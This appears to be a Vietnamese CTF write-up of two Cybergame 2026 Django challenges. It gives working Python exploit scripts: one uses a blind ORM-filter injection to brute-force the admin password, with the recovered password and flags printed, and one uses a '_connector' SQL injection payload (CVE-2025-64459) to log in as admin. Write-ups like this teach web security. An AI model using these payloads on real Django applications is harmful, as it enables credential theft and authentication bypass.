






# Cybergame CTF 2026 Writeup
> CTF Time Event Link: https://cybergame.sk/ 
## Writeup
> 1. ORMT - ormt
> 2. ORMT - ormt2
## Background
> Chủ nhật, 01 Tháng ba 2026, 06:00 ICT — Chủ nhật, 10 Tháng năm 2026, 04:59 ICT

## Challenge ORMT - ormt

Trang Chủ

Khi vào trang chủ, chúng ta sẽ được chuyển đến tới một ứng dụng sách với có chức năng search `Find Your Book` sau quá trình kiểm nghiệm ứng dụng thì không có gì đặc biệt
### Xem xét mã nguồn ứng dụng
Trong thử thách, chúng ta có thể tải xuống mã nguồn và thực hiện phân tích mã nguồn. `<Đưa Link>`
Trong thử thách này, ứng dụng được viết bằng `Python` sử dụng framework web `Django`.
Trước hết, lá cờ nằm ở đâu ? Mục tiêu thử thách này là gì ?
Nếu ta vào `handout/main/views.py` có thể thấy để lấy được flag chúng ta cần có role `admin`
```py
[....]
@siteuser_basic_auth(required_role="admin", realm="Admin Area")
def admin(request):
    return HttpResponse('SK-CERT{test_flag}')
[....]
```
Vậy để xác định được `role=admin` và ứng dụng xác thực như nào thì trong `handout/main/views.py` 
```py
def siteuser_basic_auth(required_role=None, realm="Restricted"):
    def decorator(view_func):
        @wraps(view_func)
        def _wrapped(request, *args, **kwargs):
            auth = request.META.get("HTTP_AUTHORIZATION", "")
            if auth.startswith("Basic "):
                try:
                    b64 = auth.split(" ", 1)[1].strip()
                    decoded = base64.b64decode(b64).decode("utf-8")
                    username, password = decoded.split(":", 1)

                    user = SiteUser.objects.filter(username=username).first()
                    if user and secrets.compare_digest(user.password, password):
                        if required_role is None or user.role == required_role:
                            request.site_user = user
                            return view_func(request, *args, **kwargs)
                except Exception:
                    pass
            resp = HttpResponse("Authentication required", status=401)
            resp["WWW-Authenticate"] = f'Basic realm="{realm}", charset="UTF-8"'
            return resp
        return _wrapped
    return decorator
```
Hàm `siteuser_basic_auth` tổng quan thì nó sử dụng để kiểm tra header `Authorization` kèm theo `username:password` sau đó nó thực hiện so sánh dữ liệu với trong `SiteUser` nếu hợp lệ nó cho phép truy cập còn không nó tra về `HTTP 401` và có thể giới hạn theo `role` 
Vậy nói như thế chúng ta tìm cách leak được `password` của username `admin` để có thể truy cập FLAG đúng không? 
Trong `main/migrations/0002_seed_data.py`
```py
alphabet = string.ascii_letters + string.digits
def seed(apps, schema_editor):
    author_model = apps.get_model('main', 'Author')
    book_model = apps.get_model('main', 'Book')
    siteuser_model = apps.get_model('main', 'SiteUser')
    review_model = apps.get_model('main', 'Review')
    admin_user, _ = siteuser_model.objects.get_or_create(username='Admin', password=''.join(secrets.choice(alphabet) for _ in range(32)), role='admin')
    [....]
    review_model.objects.get_or_create(for_book=book, by_user=random_user1, text='Amazing, I can finally leave PHP behind.')
    [.....]
    book, _ = book_model.objects.get_or_create(title='The Rust Programming Language', author=aut, picture='1.jpg', price='42.99', description='With over 50,000 copies sold, The Rust Programming Language is the quintessential guide to programming in Rust. Thoroughly updated to Rust’s latest version, this edition is considered the language’s official documentation.')
    review_model.objects.get_or_create(for_book=book, by_user=admin_user, text='After reading this book, and finally understanding rust, I now feel an irresistible urge to rewrite everything I come across in rust.')
    review_model.objects.get_or_create(for_book=book, by_user=admin_user, text='After reading this book, and finally understanding rust, I now feel an irresistible urge to rewrite everything I come across in rust.')
```
Nó thực thiện tạo `SiteUser` với `admin role=admin và password được random 32 kí tự` nên chúng ta không thể mà đoán được và đặc biệt Admin có 1 review cho sách `The Rust Programming Language`
### Lỗ hổng ORM Injection 
Sau khi xem xét tiếp mã nguồn tôi nhận thấy có bug ORM Injection qua `book_lookup` bypass hàm `clean` chúng ta cùng xem đoạn mã
```py
def clean(filter, depth=0):
    if depth == 25:
        raise RecursionError
    if filter.find('__') != -1:
        return clean(filter.replace('__', '_', 1), depth+1)
    return filter.replace('_', '__', 1)
@csrf_exempt
def book_lookup(request):
    if request.method == 'GET':
        return render(request, 'lookup.html')
    if request.method == 'POST':
        filters = {}
        for filter in request.POST:
            if request.POST[filter] == '':
                continue
            try:
                filters[clean(filter)] = request.POST[filter]
            except: 
                filters[filter] = request.POST[filter]
        try:
            finds = Book.objects.filter(**filters)
        except Exception:
            return render(request, 'lookup.html')
        return render(request, 'lookup.html', {'books': finds})
```
Ở đoạn mã trên hàm clean đệ quy chủ động `raise RecursionError` khi depth == 25 và trong hàm `book_lookup` lại sử dụng `except` tất cả nếu `clean()` lỗi nó dùng nguyên query do chúng ta gửi đi vậy nếu chúng ta POST một tham số chứa nhiều `__` làm hàm `clean()` vỡ `RecursionError` lúc này sẽ thoát sanitize và bơm thẳng query ORM vào `Book.objects.filter(**filters)` 
Theo tài liệu <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/ORM%20Leak#query-filter">PayloadAllTheThing</a> có nói:
> Vấn đề nằm ở cách Django ORM sử dụng cú pháp tham số từ khóa để xây dựng QuerySets. Bằng cách sử dụng toán tử unpack (**) người dùng có thể kiểm soát đối số từ khóa được truyên cho phương thức filter, cho phép lọc kết quả theo nhu cầu chúng ta <br>
```txt
Bộ lọc thú vị để sử dụng:
__startswith
__contains
__regex
```
### Khai thác password admin thông qua look_up (Blind)
Tới đây chúng ta đã hiểu được rằng ta cần điều kiện lọc liên quan tới password của `SiteUser(Admin)` nhưng kết quả chỉ trả về danh sách. May mắn thay ở đây admin có review cuốn sách chúng ta có thể lợi dụng
> Nếu điều kiện đúng -> Thấy sách admin preview đó là "The Rust Programming Language" và ngược lại. <br>
Trong `models.py`
```py
[....]
class Review(models.Model):
    text = models.TextField()
    by_user = models.ForeignKey(on_delete=models.CASCADE, to=SiteUser)
    for_book = models.ForeignKey(on_delete=models.CASCADE, to=Book, related_name='reviews')
[....]
```
Chúng ta có thể dùng `reviews` lấy mối quan hệ thông qua khóa ngoại và các bước khai thác
> 1. Chèn nhiều `_` để làm phá vỡ hàm clean() key giữ nguyên 
> 2. Chọn đúng review của admin tấn công bằng `reviews__by_user_username__exact` <br>
> 3. Tấn công password theo prefix bằng : `reviews__by_user__password__startswith` <br>
Để tự động hóa quá trình khai thác tôi viết tập lệnh python xử lí như sau
<details>
  <summary style="color: red;">Click View Script Solve</summary> <br>

~~~python
import requests
import string

class Exploit:
    def __init__(self, baseURL):
        self.baseURL = baseURL.rstrip("/")
        self.lookup = self.baseURL + "/book_lookup"
        self.admin = self.baseURL + "/admin"

        self.password_attack = (
            "author__books__" * 11 +
            "reviews__by_user__password__startswith"
        )
        self.key_username = (
            "author__books__" * 11 +
            "reviews__by_user__username__exact"
        )
        self.charset = string.ascii_letters + string.digits
        self.session = requests.Session()
        self.password = ""
    def result_blind(self, html: str) -> bool:
        return 'class="book_card"' in html
    def extract_password(self):
        print("[*] Starting blind extraction...")
        for position in range(32): 
            found = False
            for ch in self.charset:
                test_pw = self.password + ch
                data = {
                    self.key_username: "Admin",
                    self.password_attack: test_pw
                }
                response = self.session.post(self.lookup, data=data, timeout=10)
                if self.result_blind(response.text):
                    self.password += ch
                    print(f"[+] {position+1}/32 Found: {self.password}")
                    found = True
                    break
            if not found:
                print("[-] No matching character found!")
                break
        print(f"[+] Final password: {self.password}")

    def access_admin_get_flag(self):
        print("[*] Trying admin login...")
        response = self.session.get(
            self.admin,
            auth=("Admin", self.password),
            timeout=10
        )
        print("[+] Server response:")
        print(response.text)
        print("======== BYE =========")

if __name__ == "__main__":
    BASE_URL = "http://exp.cybergame.sk:7001"
    exploit = Exploit(BASE_URL)
    exploit.extract_password()
    exploit.access_admin_get_flag()
~~~
</details>
Kết quả 

```shell
PS D:\Downloads\ORM 1> & "D:\Tai Lieu Hoc Tap\IDE PyThon & PHP & Java\python.exe" "d:/Downloads/ORM 1/solve.py"
[*] Starting blind extraction...
[+] 1/32 Found: m
[+] 2/32 Found: mv
[+] 3/32 Found: mvy
[+] 4/32 Found: mvyG
[+] 5/32 Found: mvyGA
[+] 6/32 Found: mvyGAr
[+] 7/32 Found: mvyGAru
[+] 8/32 Found: mvyGAruq
[+] 9/32 Found: mvyGAruqy
[+] 10/32 Found: mvyGAruqyW
[+] 11/32 Found: mvyGAruqyWh
[+] 12/32 Found: mvyGAruqyWh5
[+] 13/32 Found: mvyGAruqyWh5q
[+] 14/32 Found: mvyGAruqyWh5qd
[+] 15/32 Found: mvyGAruqyWh5qdl
[+] 16/32 Found: mvyGAruqyWh5qdlY
[+] 17/32 Found: mvyGAruqyWh5qdlYT
[+] 18/32 Found: mvyGAruqyWh5qdlYT7
[+] 19/32 Found: mvyGAruqyWh5qdlYT7l
[+] 20/32 Found: mvyGAruqyWh5qdlYT7lo
[+] 21/32 Found: mvyGAruqyWh5qdlYT7loi
[+] 22/32 Found: mvyGAruqyWh5qdlYT7loin
[+] 23/32 Found: mvyGAruqyWh5qdlYT7loin7
[+] 24/32 Found: mvyGAruqyWh5qdlYT7loin7x
[+] 25/32 Found: mvyGAruqyWh5qdlYT7loin7xE
[+] 26/32 Found: mvyGAruqyWh5qdlYT7loin7xE6
[+] 27/32 Found: mvyGAruqyWh5qdlYT7loin7xE6e
[+] 28/32 Found: mvyGAruqyWh5qdlYT7loin7xE6ew
[+] 29/32 Found: mvyGAruqyWh5qdlYT7loin7xE6ewQ
[+] 30/32 Found: mvyGAruqyWh5qdlYT7loin7xE6ewQP
[+] 31/32 Found: mvyGAruqyWh5qdlYT7loin7xE6ewQP3
[+] 32/32 Found: mvyGAruqyWh5qdlYT7loin7xE6ewQP3s
[+] Final password: mvyGAruqyWh5qdlYT7loin7xE6ewQP3s
[*] Trying admin login...
[+] Server response:
Congrats, SK-CERT{0rm_r3l4t10n_tr4v3rs4l_g0t_y0u}
======== BYE =========
```
> FLAG: SK-CERT{0rm_r3l4t10n_tr4v3rs4l_g0t_y0u} <br>
## Challenge ORMT - ormt2

Ở challenge v2 này nó liên quan đến challenge v1 tôi khuyên bạn nếu chưa đọc challenge v1 hãy quay lại đọc trước khi đọc phần này.
Vẫn như cũ flag challenge v2 nằm đâu. Mục tiêu thử thách là gì?
Trong `/handout/main/views.py`
```py
def sanitize(param):
    while param.find('__') != -1:
        param = param.replace('__', '_')
    return param

@csrf_exempt
def siteuser_login(request):
    if request.method == 'GET':
        return render(request, 'login.html')
    elif request.method == 'POST':
        params = {}
        for param in request.POST:
            params[sanitize(param)] = request.POST[param]
        if {'password', 'username'}.intersection(params.keys()) != {'password', 'username'}:
            return HttpResponseServerError('Password and username required')
        try:
            user = SiteUser.objects.get(**params)
        except SiteUser.DoesNotExist:
            return render(request, 'error.html', {'message': 'Login failed'})
        except Exception as e:
            return HttpResponseServerError(f'Query error {e}')
        if user.role == 'admin':
            return render(request, 'error.html', {'message': 'SK-CERT{fake_flag}'})
        return render(request, 'error.html', {'message': 'Welcome back! More features coming soon!'})
```
Ở đây FLAG nó nằm trong acc admin nếu chúng ta vào được `role=admin` chúng ta sẽ có được lá cờ. Và hàm `sanitize` nó sẽ tìm `__` thay thế `_` mà không whitelist(key) đặc biệt ở đây nó lấy toàn bộ Dict username, password và gọi thẳng `SiteUser.objects.get(**params)` vào `Querys.set.get()` vậy chúng ta bây giờ làm cách nào để có thể xác thực bằng admin. 
Ở challenge này tôi nhận thấy sự khác biệt đó chính là ở `Dockerfile`
So sánh `Dockerfile` v1 và `Dockerfile` v2
```Dockerfile
[....]
RUN pip install --no-cache-dir --upgrade pip \
 && pip install --no-cache-dir Django
[.....]
```
```Dockerfile
[....]
RUN pip install --no-cache-dir --upgrade pip \
 && pip install --no-cache-dir Django==5.2.7
[.....]
```
### CVE 
Thoạt nhìn tôi đã nghỉ trong đầu `Dockerfile` v2 thật sự có điều gì xảy ra và tôi tìm kiếm với từ khóa `Django version 5.2.7 CVE`

CVE có mô tả laf có thể dẫn tới SQL Injection khi input được truyền theo đường `_conector` và ở hàm trên `santize` chỉ thay `__` nên các key `_conector` vẫn lọt vào nguyên params, rồi đi vào `get(**params)`
Và để thử nghiệm điều đó tôi đã tìm thấy trang Blog GitHub này: <a href="https://github.com/stanly363/CVE-2025-64459-Poc.git">CVE-2025-64459-Poc</a> 
```py
# Attacker controls the keys and values of 'filters'
filters = request.GET.dict() 
query = Q(**filters)  # <--- VULNERABLE POINT
results = User.objects.filter(query)
```
Trong mô tả có nói đến: 
> Nếu kẻ tấn công đưa vào `_connector` làm khóa trong dữ liệu đầu vào, chúng có thể thao túng cấu trúc SQL. <br>
Thử nghiệm cục bộ và vâng chúng ta có thể vượt qua được điều đó

## Khai thác
Để quá trình tự động hóa tôi viết tập lệnh Python
<details>
  <summary style="color: red;">Click View Script Solve</summary> <br>

~~~python
import requests, re, secrets, string
BASE = "http://exp.cybergame.sk:7002" 

def rand(n=24):
    return ''.join(secrets.choice(string.ascii_letters + string.digits) for _ in range(n))
data = {
    "username": "u_" + rand(),
    "password": "p_" + rand(),
    "_connector": ") OR role='admin' OR (",
}
r = requests.post(BASE + "/login", data=data, timeout=10)
print("status =", r.status_code)
print(r.text)

m = re.search(r"SK-CERT\{[^}]+\}", r.text)
if m:
    print("[+] FLAG:", m.group(0))
else:
    print("[-] No flag pattern found")
~~~
</details>
Kết quả:

```shell
❯ python3 solve.py
status = 200
[.....]
[+] FLAG: SK-CERT{cve_2025_64459_c0nn3ct0r_1nj3ct10n}
```
> FLAG: SK-CERT{cve_2025_64459_c0nn3ct0r_1nj3ct10n} <br>
..........................Mệt rồi....................


